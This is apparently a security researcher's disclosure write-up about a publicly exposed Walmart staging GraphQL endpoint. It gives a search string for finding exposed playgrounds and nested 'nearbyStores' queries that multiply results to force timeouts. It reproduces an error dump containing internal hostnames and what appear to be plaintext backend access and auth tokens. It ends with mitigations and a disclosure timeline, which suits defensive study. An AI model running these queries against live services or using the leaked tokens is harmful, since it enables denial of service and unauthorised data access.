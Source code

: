 # Overview

GraphQL is an exciting technology that simplifies how developers load data from back-end services and thousands of organizations are realizing the simplicity and power GraphQL enables for new applications. If and when a security issue does occur, the simplicity and power of GraphQL helps attackers to gain control of significantly more confidential data far faster than ever before.

Walmart accidentally exposed a graphql endpoint from their staging environment to the public with no authentication, schema introspection enabled, and graphql playground enabled. This makes it trivial for an attacker to scrape the entire API surface area for issues.

A quick set of queries revealed that most of the information from this public graphql endpoint was information that would generally be publicly available which is a little less exciting. However, if you’re able to get the graphql gateway to produce an invalid request to an underlying system it dumps the entire request into the payload back to the requestor. This includes headers from the GraphQL Gateway to the backend microservice that handles the request. In Walmart’s case this included the names of the internal servers and services and the authorization and access tokens the GraphQL gateway was using to interact with those services.

# Locating this issue

This particular vulnerable server was found by searching google for a piece of text that only exists in GraphQL playgrounds.

Here's a screenshot of a server hosting the GraphQL Playground

![Playground](Playground.png)

More specifically, a simple google search for `"Hit the Play Button to get a response here"` revealed the exposed server.


# Note about GraphQL

The beauty of GraphQL is that you can easily bring in data related to an entity you are querying for. In this vulnerability we were able to write a query that the information about a store.

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
    }
  }
}

   
```

Once we confirmed we'd be able to run that query we were able to investigate the schema to explore additional query options:


```
    nearbyStores {
      
    }
```

It looks like we can find 25 nearby stores to the first store we queried. Then we can recursively call this

```
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
```

Each additional nested NearbyStores result multiples our result size by 25. So in this case we'll get 625 results, add two more nested calls and you'll get 390625 results.

# Details

Running this query will first cause a timeout, running it again shortly after the timeout will cause a different error which will dump the request headers from the GraphQL Gateway's call to the underlying REST service. These headers include plain text auth tokens for the backend service.


Sample Query:

```
{
  storesBySearchTerm(searchTerm: "Monona", searchOptions: { maxResults: -1 }) {
    stores {
      displayName
      bulletinBoard {
        header
        messages {
          body
        }
      }
      nearbyStores {
        nearbyStores{
          displayName
        }
      }
    }
  }
}
}
```

Running this query several times causes the underlying service to timeout and then when the next request occurs it fails, dumping the full request with headers to the requester:

```
{
  "url": "http://store-front.stg-mt.store-finder.services.glb.prod.walmart.com:80/store-front/storefinder/stores?latitude=42.919756&longitude=-89.252756&nbrOfStores=11&distance=50&responseGroups=deptGroups%2CallServices%2Cevents&serviceTypes=ALL",
  "headers": {
    "access_token": "gsf51320fce430d45d2bdba0509908f775f",
    "client_id": "123",
    "language_code": "en",
    "wm_bu_id": "0",
    "wm_consumer.id": "fa0d07de-fb06-4790-bda2-73b283846c67",
    "wm_consumer.ip": "127.0.0.1",
    "wm_ifx.client_type": "INTERNAL",
    "wm_sec.auth_token": "ahhaCXP%^OST",
    "wm_svc.env": "prod",
    "wm_svc.name": "store-front",
    "wm_svc.version": "1.0.0",
    "wm_consumer.intimestamp": 1650386721185,
    "wm_qos.correlation_id": "123"
  }
}
```

# CWE-200: Exposure of Sensitive Information to an Unauthorized Actor

This is an example of not implementing authentication on a GraphQL endpoint.

The following actions would have prevented this issue from occuring: 
* If this GraphQL endpoint is not utilized by the user's browser to render content it should not be connected to the internet with a public IP but instead should only be accessible by necessary internal services
* GraphQL Authorization should be added at the gateway level
* Limit nested calls whenever possible.
* If there are underlying services involved, those services should validate the user's request token to ensure the user should see the required data
* Underlying services should not treat the graphql gateway as being in development mode and should use the same protections as production services
* Positive and Negative authorization-related integration and end to end tests would have caught the issue 
* Tools like https://github.com/zapier/apollo-server-integration-testing make it easier to automated integration tests that ensure the presence of an authorization token

# Disclosure

Apr 18th: Filed a responsible disclosure via Walmart’s website which ended up with Bugcrowd

Apr 19th: Walmart sends a message rejecting responsible disclosure as could not reproduce / false positive and closes ticket.

Apr 19th: I reached out to clarify and provide additional information. If Walmart is rejecting the report then I believe I am free to immediately disclose.

Apr 19th: Contact bugcrowd to see if anyone will be responding to my new comment on the closed ticket. Bugcrowd says it may be up to 2 weeks before I will get a response.

May 18th: Vendor is not accepting the issue as meeting criteria.


